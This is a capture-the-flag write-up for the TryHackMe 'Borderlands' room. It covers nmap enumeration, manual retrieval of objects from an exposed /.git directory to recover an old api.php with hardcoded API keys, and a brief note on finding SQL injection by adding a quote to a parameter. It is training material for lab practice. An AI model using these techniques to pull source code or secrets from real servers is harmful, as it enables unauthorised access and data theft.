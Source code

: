 # 95 - Borderlands (Mannual GIT repo exploitation, SQLI)

Room Link --> [https://tryhackme.com/room/borderlands](https://tryhackme.com/room/borderlands)

### Enumeration

{% code overflow="wrap" %}
```bash
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 1e:11:d6:ab:cc:f2:71:c8:40:e2:1d:97:07:09:6b:eb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvGF7If+TAlknFH/FDMXkhsCJ42eZhvyt/mFDlFw/JyFIWnzTarhTH8MU1o7qrTUUJ3YnlQhu2kjOVlgkL+r48ibhfkzoEmNAIy54kxFLXaC7hFkOpYPehtfCBvxzehclToZq8nsaECbPgEFFOUiFIdQ3yo87CHR1aWeaYh9KdrdObyWUsPRKqNHwVTXXUNhwlLsoJZDJccbH56rdGOpRf3oP1qqWfCUnMDN55o8fkgW0tVLdRFxvuRmlOKdEdCEB6VEDsp2z/QFtuDDSCGPwo1XDqp5SLRGIc+LKhAQZHhnBShaXmnvwLShGLqaU0EAzIBQ96dvNkkTAvZAzazMcN
| 256 cd:d6:f0:67:0e:1b:b3:2c:99:9f:7b:bb:70:42:b5:a5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLaioJd8smxzz0s9lMNoVu95NxoazDCi+ZMZ+sdxtPCiGpesRMmBZjyav7T4REZyqPR6vrvKymnnRio09JGuE6E=
| 256 e1:70:d2:f4:c9:73:6c:f0:d8:1f:d4:d8:a0:9f:8c:fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsWZhy909do/TDDtLBrrwcU2A6mW99pJq4zV7IT2bG7
80/tcp open http syn-ack nginx 1.14.0 (Ubuntu)
| http-cookie-flags: 
| /: 
| PHPSESSID: 
|_ httponly flag not set
| http-git: 
| 10.10.245.245:80/.git/
| Git repository found!
| .git/config matched patterns ‘user’
| Repository description: Unnamed repository; edit this file ‘description’ to name the…
|_ Last commit message: added mobile apk for beta testing. 
| http-methods: 
|_ Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Context Information Security — HackBack 2
```
{% endcode %}

**SSH Version Username Enumeration Exploit**

<figure><img src="https://miro.medium.com/v2/resize:fit:481/0*xmweD0ML1P-DX_iG.png" alt="" height="68" width="700"><figcaption></figcaption></figure>

#### PORT 80 <a href="#a2de" id="a2de"></a>

<figure><img src="https://miro.medium.com/v2/resize:fit:463/0*PydjwJZTsDBvkRwF.png" alt="" height="98" width="674"><figcaption></figcaption></figure>

## Exploiting Git

Resource for [exploiting](https://github.com/bl4de/research/tree/master/hidden\_directories\_leaks#hidden-directories-and-files-as-a-source-of-sensitive-information-about-web-application) `/.git` dir on a webserver or we can use automated tool like GitTool or GitHack.py.

* We retrieve the log files from the Git repository located at: [http://10.10.56.231/.git/logs/HEAD](http://10.10.56.231/.git/logs/HEAD)

<figure><img src=".gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

* Let's take a look a little bit closer to sample line of this file:

```
0000000000000000000000000000000000000000 152b2d9976cd37a68fd462af8e4ce21356b5485e Context Information Security <recruitment@contextis.com> 1568122271 +0100	commit (initial): created repo
152b2d9976cd37a68fd462af8e4ce21356b5485e 93bab0a450caaa8c4d2632703636eccc69062bb4 Context Information Security <recruitment@contextis.com> 1568122438 +0100	commit: added under construction page
93bab0a450caaa8c4d2632703636eccc69062bb4 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Context Information Security <recruitment@contextis.com> 1568122828 +0100	commit: added basic prototype of api gateway
79c9539b6566b06d6dec2755fdf58f5f9ec8822f b2f776a52fe81a731c6c0fa896e7f9548aafceab Context Information Security <recruitment@contextis.com> 1568122860 +0100	commit: removed sensitive data
b2f776a52fe81a731c6c0fa896e7f9548aafceab 04f1f411857cc972ae8ed5efcffa298f5f6168fb Context Information Security <recruitment@contextis.com> 1568122932 +0100	commit: added theme
04f1f411857cc972ae8ed5efcffa298f5f6168fb fee5595bb2ba1d1ab005ec3de98367fe5d021e9f Context Information Security <recruitment@contextis.com> 1568123006 +0100	commit: added white paper pdf's
fee5595bb2ba1d1ab005ec3de98367fe5d021e9f 6db3cf70b469de942f2f529166088cdfbbd5f764 Context Information Security <recruitment@contextis.com> 1568123071 +0100	commit: added mobile apk for beta testing.
```

For example, this hash `152b2d9976cd37a68fd462af8e4ce21356b5485e` is divided into 2 parts:&#x20;

1. a directory name (first two signs from hash) and,
2. filename (rest of it).

We can download the object identified by the hash `152b2d9976cd37a68fd462af8e4ce21356b5485e` by going to the url: [http://10.10.56.231/.git/objects/15/2b2d9976cd37a68fd462af8e4ce21356b5485e](http://10.10.56.231/.git/objects/15/2b2d9976cd37a68fd462af8e4ce21356b5485e)

We now have to move the downloaded file into the dummy `.git` dir we created earlier:&#x20;

{% code overflow="wrap" %}
```bash
mv 2b2d9976cd37a68fd462af8e4ce21356b5485e .git/objects/15/2b2d9976cd37a68fd462af8e4ce21356b5485e
```
{% endcode %}

To check the type of object, you can use following command:

```bash
$ git cat-file -t 152b2d9976cd37a68fd462af8e4ce21356b5485e

# outputs
commit
```

To display the content of the object, use this command:

```bash
$ git cat-file -p 152b2d9976cd37a68fd462af8e4ce21356b5485e

# outputs
tree 337c2224b69c29a0faf3143d2da16d9bb82e91fb
author Context Information Security <recruitment@contextis.com> 1568122271 +0100
committer Context Information Security <recruitment@contextis.com> 1568122271 +0100
```

In our own case, Notice that the author remove the sensitive data on the **object b2f776a52fe81a731c6c0fa896e7f9548aafceab**. The best bet is we can find the sensitive data in the **object 79c9539b6566b06d6dec2755fdf58f5f9ec8822f**.

Lets download the file: [http://10.10.56.231/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f](http://10.10.56.231/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f)

Move the file to the `79` dir.

```bash
mv c9539b6566b06d6dec2755fdf58f5f9ec8822f .git/objects/79
```

```bash
git cat-file -p 79c9539b6566b06d6dec2755fdf58f5f9ec8822f

# outputs
tree 51d63292792fb7f97728cd3dcaac3ef364f374ba
parent 93bab0a450caaa8c4d2632703636eccc69062bb4
author Context Information Security <recruitment@contextis.com> 1568122828 +0100
committer Context Information Security <recruitment@contextis.com> 1568122828 +0100
```

We got a tree **object 51d63292792fb7f97728cd3dcaac3ef364f374ba,** lets download the object file also. [http://10.10.56.231/.git/objects/51/d63292792fb7f97728cd3dcaac3ef364f374ba](http://10.10.56.231/.git/objects/51/d63292792fb7f97728cd3dcaac3ef364f374ba)

{% code overflow="wrap" %}
```bash
git cat-file -p 51d63292792fb7f97728cd3dcaac3ef364f374ba

# outputs
100644 blob 2229eb414d7945688b90d7cd0a786fd888bcc6a4	api.php
100644 blob 9eb9f94f73113d785e65c7e3ec0cba54e0b7cf43	functions.php
100644 blob 2a116a56a6e31ef1836796936dbc05af1f986a26	home.php
100755 blob 470cac65fcd0f8556f13997957a331628482aa96	index.html
100644 blob 4f4ced90fcad774ca4f9f966dbb227ebe7f77a83	index.php
100644 blob 6480abf34a54d3055b437766be872a13bcebdf7d	info.php
```
{% endcode %}

We have to do same thing for each of this files then use `git cat-file -p <hash-id` to read each. The sensitive data is in the `api.php` file.

Download it: [http://10.10.56.231/.git/objects/22/29eb414d7945688b90d7cd0a786fd888bcc6a4](http://10.10.56.231/.git/objects/22/29eb414d7945688b90d7cd0a786fd888bcc6a4)

```bash
git cat-file -p 2229eb414d7945688b90d7cd0a786fd888bcc6a4

# outputs
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "GITtFi80llzs4TxqMWtCotiTZpf0HC"))
{
    die("Invalid API key");
}

if (!isset($_GET['documentid']))
{
    die("Invalid document ID");
}

/*
if (!isset($_GET['newname']) || $_GET['newname'] == "")
{
    die("invalid document name");
}
*/

$conn = setup_db_connection();

//UpdateDocumentName($conn, $_GET['documentid'], $_GET['newname']);

$docDetails = GetDocumentDetails($conn, $_GET['documentid']);
if ($docDetails !== null)
{
    //print_r($docDetails);
    echo ("Document ID: ".$docDetails['documentid']."<br />");
    echo ("Document Name: ".$docDetails['documentname']."<br />");
    echo ("Document Location: ".$docDetails['location']."<br />");
}

?>%                              
```

We get the 3 flags there.

## Task 4 - sqli

We just use the `api.php` file that contains the keys, and pass in the parameters via the url.

<figure><img src=".gitbook/assets/image (583).png" alt=""><figcaption></figcaption></figure>

Passing `'` after the `1` value and we get an SQLI.

<figure><img src=".gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (585).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://deskel.github.io/posts/thm/borderlands" %}

[https://mecanik.dev/en/posts/tryhackme-room-borderlands/](https://mecanik.dev/en/posts/tryhackme-room-borderlands/)















































